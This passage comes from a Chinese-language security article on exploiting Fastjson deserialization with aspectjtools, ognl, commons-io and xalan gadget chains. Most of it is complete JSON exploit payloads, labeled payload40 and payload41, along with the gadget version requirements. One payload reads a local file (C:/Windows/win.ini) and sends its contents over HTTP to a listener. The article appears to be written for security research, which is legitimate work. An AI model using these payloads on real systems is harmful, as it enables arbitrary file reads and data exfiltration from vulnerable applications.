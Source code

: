 但是只有`mac`才支持`ping`带花括号的域名，所以我`Windows`这里会提示`deserialize inet adress error`：

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-bf1fc65d185f66a585a40c08d736bc2bc6939b18.png)

#### 4.1.1.4 httplog回显法（另需ognl&gt;=2.7以及commons-io&gt;=2.0）

分两次打。

`payload40`（组合拳）：

```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]
```

```json
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Windows/win.ini"}]}}},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36]}]}}}},"su17":{"$ref":"$.su16.node.p.stream"},"su18":{"$ref":"$.su17.bOM.bytes"}}
```

我这里实际测试过程中，文件中有中文字符的时候出现了乱码：

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-5d286d27f1eaf8b00eb86b07f6262f3b0c826400.png)

我的解决方法是，使用`yakit`的端口监听器：

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-d4706d1b58a4a5abe1eb308b702968d4bbc76b40.png)

`yakit`真是太好用了，有木有~

### 4.1.2 aspectjtools+xalan（&gt;=2.4.0）+dom4j（版本无限制）

#### 4.1.2.1 直接回显法

分五次打，中间报错不用管。

`payload41`（组合拳）：

```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]
```
